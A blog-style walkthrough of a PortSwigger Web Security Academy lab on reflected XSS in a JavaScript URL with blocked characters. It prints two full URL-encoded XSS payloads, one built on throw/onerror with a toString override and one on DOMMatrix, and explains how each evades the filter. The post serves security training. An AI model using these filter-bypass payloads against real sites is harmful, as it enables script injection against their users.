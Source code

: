 ```yaml
---
title: "Expert Lab: Reflected XSS in a JavaScript URL with some characters blocked"
published: true
tags: [Web Application Security, Web Security Academy, Expert Labs, Cross-Site Scripting, XSS, Javascript]
image: /blog/assets/2022/hacker.png
description: "Lab Description: This lab reflects your input in a JavaScript URL, but all is not as it seems. This initially seems like a trivial challenge; however, the application is blocking some characters in an attempt to prevent XSS attacks."
image_width: "130"
image_height: "130"
---
```


<br>
{% smart_image /blog/assets/2022/hacker.png 256 256 "" eager high %}
[^1]
<br>

## Lab Link
[Lab: Reflected XSS in a JavaScript URL with some characters blocked](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-url-some-characters-blocked)

<br>
## Lab Description
* * *
<br>
This lab reflects your input in a JavaScript URL, but all is not as it seems. This initially seems like a trivial challenge; however, the application is blocking some characters in an attempt to prevent XSS attacks.

To solve the lab, perform a cross-site scripting attack that calls the alert function with the string 1337 contained somewhere in the alert message.

<br>
## Solutions
* * *
<br>
### Solution 1:
Visit the following URL, replacing your-lab-id with your lab ID:

```
https://your-lab-id.web-security-academy.net/post?postId=5&%27},x=x=%3E{throw/**/onerror=alert,1337},toString=x,window%2b%27%27,{x:%27
```

The lab will be solved, but the alert will only be called if you click "Back to blog" at the bottom of the page.

The payload here, URL decoded is:

```js
&'},x=x=>{throw/**/onerror=alert,1337},toString=x,window+'',{x:'
```

The exploit uses exception handling to call the alert function with arguments. The throw statement is used, separated with a blank comment in order to get round the no spaces restriction. The alert function is assigned to the onerror exception handler.

As throw is a statement, it cannot be used as an expression. Instead, we need to use arrow functions to create a block so that the throw statement can be used. We then need to call this function, so we assign it to the toString property of window and trigger this by forcing a string conversion on window.

<br>
Here are some explanations about the Javascript code used above[^2]:

First of all, the code is using the comma operator. What the comma operator does is allow you to evaluate multiple expressions. In particular in this case, you have three:

```js
   x=x=>{throw onerror=alert,1337},toString=x,window+''
// ^_____________________________^ ^________^ ^_______^
//                 1                     2         3
```

Let's examine them one by one:

<br>
#### Brief Note about Implicit Globals
This is going to be relevant for most of the below sections, so I want to clear it up first. Any time you assign to any name you haven't declared with `var`, `let`, or `const` it implicitly assigns to a property on the global object. In the browser, the global object is `window`, so any implicit globals go there.

<br>
#### An Arrow Function
```js
x=x=>{onerror=alert; throw 1337}
```

##### Definition
This will create a new arrow function and assign it to `x`. Since there is no variable declaration, `x` will be an implicit global and thus attached to `window`. This isn't extremely useful, it's likely done to save a few characters. The function also takes a single parameter called `x` but does nothing with it. Again, nothing useful, saves up a single character, otherwise it needs to be defined as `()=>`.

<br>
#### Overriding `toString`
```js
toString=x
```

This part will override the `toString` method on `window` and change it to the `x` function. Thus any time you explicitly or implicitly convert `window` to a string, it will instead execute `x`.

```js
x = x => {
  onerror = alert;
  throw 1337
}

toString = x;

window.toString();
```

<br>
#### Converting `window` to String
In JavaScript, when you try to concatenate any value with a string, the value will be implicitly also be converted to a string. This is usually done by calling the `toString()` method.

The same thing happens in the last part of the code:

```js
window+''
```

This will:

1. trigger conversion to a string, which
2. calls the `toString` method on `window`, which
3. was overridden with `x` using `toString=x`, which
4. calls the `x` function instead, which
5. sets the global error handler to just be `alert` (`onerror=alert`) and immediately throws an error (throw `1337`), which
6. invokes the global error handler

<br>
#### Why omitting `window+''` doesn't Throw an Error
Hopefully clear from the above, but to address it directly, that code is needed to set off the whole chain of reactions defined before it.
Here is the full code with explanation and formatting for clarity:

```js
//create a function
window.x = x => {
  onerror = alert; //changes the global error handler
  throw 1337       //throws an error to trigger the error handler
};

//overwrite the `toString` method of `window` so it always throws an error
window.toString = window.x;

//implicitly call `window.toString()` by performing a string concatenation
window + '';
```

<br>
### Solution 2:
Another interesting solution is to use _JavaScript without parentheses using DOMMatrix_ which is explained in detail by Gareth Heyes in a great post[^3]. To solve this lab with DOMMatrix payload, use:

```
https://your-lab-id.web-security-academy.net/post?postId=5&%27},x=z=%3E{x=new/**/DOMMatrix;matrix=alert;x.a=1337;location='javascript'%2b':'%2bx},toString=x,window%2b%27%27,{x:%27
```

The payload in this code, URL decoded is:

```js
&'},x=z=>{x=new/**/DOMMatrix;matrix=alert;x.a=1337;location='javascript'+':'+x},toString=x,window+'',{x:'
```

As explained in Solution 1: `/**/` is used to bypass space restriction, also click "Back to blog" link to pop alert message box and solve the lab.


<br>
## _External Links_
* * *
* ### [Lab: Reflected XSS in a JavaScript URL with some characters blocked](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-url-some-characters-blocked)
* ### [Cross-site scripting (XSS) cheat sheet: Restricted characters](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#restricted-characters)

<br>
## _References_
* * *
[^1]: Icon made by [Flat Icons](https://www.flaticon.com/authors/flat-icons) from [www.flaticon.com](https://www.flaticon.com/)
[^2]: [Javascript window object, window+'', what does this code do](https://stackoverflow.com/questions/64416874/javascript-window-object-window-what-does-this-code-do)
[^3]: [JavaScript without parentheses using DOMMatrix](https://portswigger.net/research/javascript-without-parentheses-using-dommatrix), also see: [XSS without parentheses and semi-colons](https://portswigger.net/research/xss-without-parentheses-and-semi-colons)
